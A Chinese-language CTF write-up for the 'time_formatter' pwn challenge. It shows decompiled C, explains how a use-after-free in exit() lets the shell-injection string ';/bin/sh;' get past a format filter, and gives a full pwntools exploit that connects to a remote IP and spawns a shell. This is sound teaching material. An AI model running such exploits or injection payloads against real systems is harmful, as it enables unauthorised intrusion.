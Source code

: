 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。</br>
![time_formatter1](./pic/gfsj/time_formatter1.png)
</br>
试试这个shell注入`';/bin/sh;'`</br>
![time_formatter2](./pic/gfsj/time_formatter2.png)
</br>
可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。</br>
![time_formatter3](./pic/gfsj/time_formatter3.png)
</br>
不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。</br>
![time_formatter4](./pic/gfsj/time_formatter4.png)
</br>
那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。</br>
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
